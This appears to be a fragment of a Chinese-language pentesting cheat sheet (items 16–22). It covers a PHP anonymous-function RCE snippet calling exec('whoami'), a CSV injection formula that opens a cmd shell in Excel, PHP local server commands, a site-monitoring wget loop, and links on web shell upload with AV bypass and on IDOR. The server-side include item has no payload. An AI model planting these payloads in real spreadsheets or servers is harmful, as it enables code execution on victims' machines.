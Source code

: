 <https://hax365.wordpress.com/2015/12/15/easy-trick-to-upload-a-web-shell-and-bypass-av-products/>

## 16.PHP中的匿名函数RCE

```
$inputFunc = function() use($a, $b, $c, &$f){echo(exec('whoami'));};
```

## 17.PHP实验

如果您需要测试一些PHP代码，可以使用本机Web服务器来托管它：

```
php -S 127.0.0.1:80 -t .
```

## 18.PHP交互式SHELL

```
php -a
```

## 19.CSV注入

在Windows上的Excel中，输入以下内容以获取cmd shell：

```
=cmd|'cmd'!''
```

exmaple:<https://rhinosecuritylabs.com/azure/cloud-security-risks-part-1-azure-csv-injection-vulnerability/>

movie：<https://www.youtube.com/watch?v=SC7AkclnG2g>

## 20.有用的脚本

不断检查网站服务是否关闭：

```
while true; do /usr/bin/wget "http://[target]/uri/path" --timeout 30 -O - 2>/dev/null | grep "[item on page]" || echo "The site is down"; sleep 10; done
```

## 21.IDORS

<https://www.bugcrowd.com/how-to-find-idor-insecure-direct-object-reference-vulnerabilities-for-large-bounty-rewards/>

## 22.服务器端包含注入

把它放在一个易受攻击的参数中： 
如果有效，您应该在响应中看到当前日期和时间输出。
